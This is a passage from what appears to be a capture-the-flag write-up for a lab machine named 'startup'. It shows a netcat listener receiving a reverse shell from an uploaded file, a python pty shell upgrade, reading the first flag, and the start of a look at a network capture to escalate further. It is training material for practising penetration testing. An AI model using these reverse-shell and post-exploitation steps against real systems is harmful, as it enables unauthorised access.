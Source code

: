 ![success](images/files_afterupload.png)

Afterwards, we just have to set up a listener on our attacking-machine and execute the file.

```
user@parrot ~ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.251.98] from (UNKNOWN) [10.10.62.240] 45424
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:12:45 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ whoami
whoami
www-data
www-data@startup:/$ 
```

### First flag
The first flag can be obtained directly from the root-directory.
```
www-data@startup:/$ ls
ls
bin   home	      lib	  mnt	      root  srv  vagrant
boot  incidents       lib64	  opt	      run   sys  var
dev   initrd.img      lost+found  proc	      sbin  tmp  vmlinuz
etc   initrd.img.old  media	  recipe.txt  snap  usr  vmlinuz.old
www-data@startup:/$ cat recipe.txt
```
Output: XXXX

### Second flag (user-flag)
*/home* has one sub-directory for a user named lennie. Right now, we are logged in as **www-data** and cannot access lennie's home-directory.
After some exploration, there is a strange directory in the root-directory called */incidents*, including a <u>wireshark</u> capture, **incidents.pcapng**.
'*.pcapng' files contain a dump of network traffic data. Analyzing this might leak some information that helps us to proceed.
